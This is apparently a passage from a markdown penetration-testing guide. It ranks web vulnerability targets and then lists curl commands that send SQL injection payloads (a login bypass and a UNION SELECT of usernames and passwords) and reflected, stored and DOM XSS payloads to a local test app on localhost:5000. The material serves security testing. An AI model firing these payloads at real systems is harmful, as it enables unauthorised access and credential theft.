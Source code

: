 ### Risk Prioritization Matrix
```bash
# High Priority Targets (Critical + Exploitable)
# 1. SQL Injection in login forms
# 2. XSS in user input fields  
# 3. Debug mode enabled
# 4. Weak authentication mechanisms
# 5. Unvalidated redirects

# Medium Priority Targets
# 6. Missing security headers
# 7. Information disclosure
# 8. Session management issues
# 9. Input validation problems
# 10. Configuration weaknesses
```

## ⚔️ Controlled Exploitation

### SQL Injection Testing
```bash
# Basic authentication bypass
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' OR '1'='1&password=anything" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Union-based injection
curl -X POST "http://localhost:5000/search" \
  -d "query=' UNION SELECT username,password FROM users--" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Error-based injection
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' AND (SELECT COUNT(*) FROM users)>0--&password=test" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

### Cross-Site Scripting (XSS)
```bash
# Reflected XSS
curl "http://localhost:5000/search?q=<script>alert('Reflected XSS')</script>"
curl "http://localhost:5000/user?name=<img src=x onerror=alert('XSS')>"

# Stored XSS
curl -X POST "http://localhost:5000/comment" \
  -d "comment=<script>alert('Stored XSS')</script>" \
  -H "Content-Type: application/x-www-form-urlencoded"

# DOM-based XSS
curl "http://localhost:5000/profile#<img src=x onerror=alert('DOM XSS')>"
```
